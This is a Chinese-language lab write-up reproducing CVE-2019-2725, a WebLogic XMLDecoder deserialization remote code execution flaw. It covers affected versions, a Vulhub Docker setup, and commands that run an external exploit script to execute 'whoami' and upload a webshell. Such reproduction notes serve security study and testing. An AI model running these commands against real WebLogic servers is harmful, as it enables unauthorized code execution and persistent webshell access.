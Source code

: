 # Weblogic XMLDecoder 反序列化远程代码执行漏洞 CVE-2019-2725

## 漏洞描述

由于在反序列化处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。

参考链接：

- https://github.com/TopScrew/CVE-2019-2725

## 漏洞影响

```
Weblogic 10.3.6
Weblogic 12.1.3
```

影响组件：

```
bea_wls9_async_response.war
wsat.war
```

## 环境搭建

Vulhub 搭建 weblogic 10.3.6.0 环境：

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

启动完成后访问`http://your-vps-ip:7001/console`可以看到管理界面。

![](images/Weblogic%20XMLDecoder%20反序列化远程代码执行漏洞%20CVE-2019-2725/image-20240422141240591.png)

## 漏洞复现

命令执行：

```
python weblogic-2019-2725.py 10.3.6 http://your-ip:7001/ whoami
```

![](images/Weblogic%20XMLDecoder%20反序列化远程代码执行漏洞%20CVE-2019-2725/image-20240422141353331.png)

上传 webshell：

```
python weblogic-2019-2725.py 10.3.6 http://your-ip:7001/
```

![](images/Weblogic%20XMLDecoder%20反序列化远程代码执行漏洞%20CVE-2019-2725/image-20240422141512885.png)

![](images/Weblogic%20XMLDecoder%20反序列化远程代码执行漏洞%20CVE-2019-2725/image-20240422141502892.png)

## 漏洞POC

- https://github.com/TopScrew/CVE-2019-2725
